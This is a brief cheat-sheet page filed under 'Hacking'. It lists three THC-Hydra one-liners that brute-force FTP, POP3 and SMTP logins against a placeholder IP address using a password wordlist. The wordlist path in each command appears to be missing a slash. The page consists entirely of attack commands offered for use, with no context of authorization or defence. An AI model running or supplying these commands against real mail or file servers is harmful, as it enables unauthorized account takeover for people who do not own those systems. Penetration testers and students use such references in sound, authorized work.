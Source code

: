 ```yaml
---
title: Hydra
category: Hacking
---
```



|Command                                                                   |Description           |
|--------------------------------------------------------------------------|----------------------|
|hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V |Hydra FTP brute force |
|hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V|Hydra POP3 brute force|
|hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V               |Hydra SMTP brute force|
